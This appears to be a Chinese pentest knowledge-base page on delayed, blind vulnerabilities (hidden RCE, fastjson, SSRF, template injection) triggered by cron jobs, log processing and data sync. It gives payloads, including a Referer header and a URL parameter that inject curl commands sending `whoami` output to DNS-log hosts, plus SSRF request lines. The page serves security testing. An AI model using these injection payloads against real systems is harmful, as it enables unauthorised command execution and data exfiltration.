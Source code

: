 隐式高危
========================================

简介
----------------------------------------
漏洞不会在当前请求响应实时执行payload，而在后面的其它任务，其它系统调用触发的漏洞，是盲攻击的一种。

漏洞基调
----------------------------------------
+ 围绕dnslog回显设计POC
+ payload基调：多样式使用`` $() ; @ http
+ 执行payload的服务器必须能够出网

原理和场景
----------------------------------------
+ 定时任务调用
+ log处理
+ 监控、数据切割汇总展示
+ 数据同步
+ 文件同步

漏洞类型
----------------------------------------
+ 隐式shell的rce
+ 隐式fastjson
+ 隐式SSRF
+ 隐式模版注入

攻击方式
----------------------------------------

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ referer字段payload：``Referer: $(curl http://xxx.dnslog.info/?whoami=`whoami`)``
+ 特点：可能并不会立即执行，每天凌晨大约0点到2点执行

shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ payload: ``http://xxx.com/api.php?city=%E5%8C%97;curl http://ip.port.iqe0k7.ceye.io/`whoami```

ssrf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ payload: ``GET /@flag.ceye.io HTTP/1.1``
+ payload: ``GET http://xxx.dnslog.ceye.io HTTP/1.1``
+ 这里可能都是延迟触发的，所以要用持久的dnslog

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	|hiderce1|


.. |hiderce1| image:: ../../../images/hiderce1.png




